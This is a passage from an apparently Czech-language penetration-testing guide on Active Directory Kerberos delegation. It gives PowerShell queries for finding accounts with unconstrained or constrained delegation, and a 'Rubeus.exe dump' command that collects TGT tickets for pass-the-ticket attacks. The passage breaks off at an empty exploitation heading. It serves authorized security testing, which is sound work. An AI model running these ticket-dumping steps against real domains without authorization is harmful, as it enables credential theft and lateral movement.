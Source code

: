 ### Popis testu

Cílem je zjistit jestli nějaká zařízení nebo uživatelé (hlavně u admin a jiných privilegovaných účtů) mají povoleno unconstrained delegation. Zachycené tickety použít pro pass-the-ticket.

### Jak provést test manuálně

Zjistit pomocí funkce Get-ADComputer a ActiveDirectory modulu, které zařízení/uživatelé mají nastaveno Unconstrained delegation:
```
powershell.exe -nop -exec bypass

Import-Module ActiveDirectory

Get-ADComputer -Filter {(TrustedForDelegation - eq $true)}
```

Pomocí administrátorského účtu/účtu služby shromáždit TGT tickety:
```
Rubeus.exe dump
```

### Možné výsledky testu

Tikety lze použít pro útok Pass-the-Ticket.

### Testem lze odhalit tyto zranitelnosti

- [Unconstrained delegation (TGT Forwarding / Trusted Forwarding)](vulnerabilities.md)

## Constrained Delegation 

### Popis testu

Cílem testu je zjistit, jestli je možné, aby útočník získal pomocí S4U2Self přístup k určité službě jménem některého uživatele. Alternativně je možné zachycené TGS tikety použít pro Pass-The-Ticket útok.

### Jak provést test manuálně

**Enumerace (Windows)**

Enumerace serverů/zařízení s povoleným constrained delegation:
```
powershell.exe -nop -exec bypass

Import-Module ActiveDirectory

Get-ADComputer -Filter {(msDS-AllowedToDelegateTo -ne "{}")} -Properties TrustedForDelegation,TrustedToAuthForDelegation,ServicePrincipalName,Description,msDS-AllowedToDelegateTo
```

**Exploitace (Windows)**

